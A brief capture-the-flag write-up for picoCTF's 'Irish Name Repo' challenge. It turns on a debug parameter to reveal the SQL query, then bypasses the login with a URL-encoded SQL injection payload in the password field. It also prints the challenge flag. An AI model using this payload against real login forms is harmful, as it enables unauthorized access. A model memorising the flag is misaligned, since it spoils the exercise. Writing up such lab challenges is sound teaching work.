

# Irish Name Repo

## solutions


after seaching i get login page 
<p align="center"> 

</p>

let test login 

i got format 

```json 
username=admin&password=password&debug=0


```
and return 

```console 

<h1>Login failed.</h1>
```

change debug to 1 

return 
```
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>
```

its indicate can use sql injection 

let try using 
```
username=admin&password=%27+OR+%271&debug=0
```
and return flag 

```
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>
```


